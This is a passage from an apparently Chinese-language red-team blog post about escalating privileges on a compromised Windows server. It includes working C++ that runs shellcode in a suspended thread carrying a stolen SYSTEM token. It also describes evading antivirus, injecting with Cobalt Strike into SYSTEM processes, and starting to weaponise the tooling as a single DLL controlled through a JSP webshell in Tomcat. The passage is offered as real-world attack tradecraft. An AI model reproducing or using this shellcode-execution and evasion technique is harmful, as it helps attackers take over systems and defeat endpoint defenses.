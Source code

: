 
因此常规的办法是不行了，于是请教了头像哥，他的回复与我想的一样，用高权限的Token去跑一个特权线程，利用这个特权线程去执行Shellcode。

```cpp
void ExecuteShellCodeWithToken(HANDLE hToken) {
	HANDLE hThread = INVALID_HANDLE_VALUE;
	DWORD dwThreadId = 0;
	HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	PVOID Mptr = HeapAlloc(hHeap, 0, g_dwShellcodeSize);
	RtlCopyMemory(Mptr, g_ShellcodeBuffer, g_dwShellcodeSize);
	hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, CREATE_SUSPENDED, &dwThreadId);
	SetThreadToken(&hThread, hToken);
	ResumeThread(hThread);
}
```

思路如下：

- 将Shellcode拷贝到可执行堆内存块中
- 创建一个暂停的线程
- 将特权Token设置覆盖掉暂停的线程Token
- 恢复线程执行

成功执行Shellcode后的样子是这样的：

![](../../../static/images/2022-08-11-22-08-27.png)

上线的User是SYSTEM，但是whoami是Local Service，这是因为当前线程是SYSTEM的，获取用户名的GetUserName API是以当前线程Token作为权限查询的，而创建进程时并不会直接复制模拟的特权Token，这个时候只需要使用CobaltStrike的进程注入到其他SYSTEM进程即可。解决完Local Service提权到SYSTEM被数字杀毒拦截的问题后，那就要思考如何做武器化了，因为在实战中不可能上传一个个DLL文件，我需要把所有的代码写到一个DLL中，通过控制JSP Webshell的参数来达到各种功能的调用。

## 0x07 武器化的思路与实现

所有的代码跑在Tomcat的进程里的，而且只能执行DLLMain，那么怎么通过某种技术可以使得发送一个Web请求就执行DLL中的一些功能呢？

这个问题其实并没有难倒我，最简单的办法是用文件传递参数，每个Web请求过来后往文件中写内容，然后DLLMain里写一个循环读取也可以，但是文件的读写容易被干扰，并且涉及到线程的控制，稍微干扰一下就产生读写问题，容错率不高。
